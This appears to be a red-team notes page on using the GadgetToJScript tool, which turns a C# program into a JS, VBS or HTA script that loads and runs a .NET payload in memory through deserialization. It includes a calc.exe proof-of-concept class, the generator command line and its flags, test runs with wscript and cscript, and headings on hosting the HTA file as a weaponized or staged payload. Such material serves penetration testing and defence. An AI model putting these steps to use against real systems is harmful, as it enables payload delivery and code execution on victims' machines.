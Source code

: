 # GadjetToJScript

## GadjetToJScript

### About

In a nutshell, GadgetToJScript serializes .Net assembly which then can trigger load/execution of a payload in memory.

Deserialization of this .NET assembly is done using  BinaryFormatter form JS/VBS based script.

The gadget are triggering a call to Assembly.Load during the deserialization  which can be used to load the code in memory.

### Usage

#### Download GadgetToJScript

```cpp
git clone https://github.com/rasta-mouse/GadgetToJScript
```

#### Create a C\# program which use a public class and a public method. Use the same name for the class and the method :

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class GtJ
{
    
        public GtJ()
        {
            Process.Start("calc.exe");
        }
    
}
```

```csharp
GadgetToJScript.exe -i my_program.cs -w js -r reference_assemblies -o myoutput -f

-w, --scriptType=VALUE js, vbs, vba or hta
-e, --encodeType=VALUE VBA gadgets encoding: b64 or hex (default set to b64)
-o, --output=VALUE Generated payload output file, example: C:\Users\userX\Desktop\output (Without extension)
-r, --regfree registration-free activation of .NET based COM components
-h, --help=VALUE Show Help
-r = reference. For instance, if we need msgbox (forms), we need to add the reference this way : -r System.Windows.Forms.dll
```

### Test your payload

![](../../../.gitbook/assets/image%20%28147%29.png)

```text
wscript.exe gtj_cal_out.js
cscript.exe gtj_cal_out.js

```

![](../../../.gitbook/assets/image%20%28110%29.png)

### HTA calc weaponization !

#### Copy the whole thing into a HTA file and host it on a webserver

![](../../../.gitbook/assets/image%20%2874%29.png)

### HTA staged payload

![](../../../.gitbook/assets/image%20%28104%29.png)

```text
.\GadgetToJScript.exe -i .\GtJsh.cs -w js -f -o GtJsh
```

### Resources

{% embed url="https://rastamouse.me/blog/gadgettojscript/" %}

{% embed url="https://github.com/rasta-mouse/GadgetToJScript/" %}

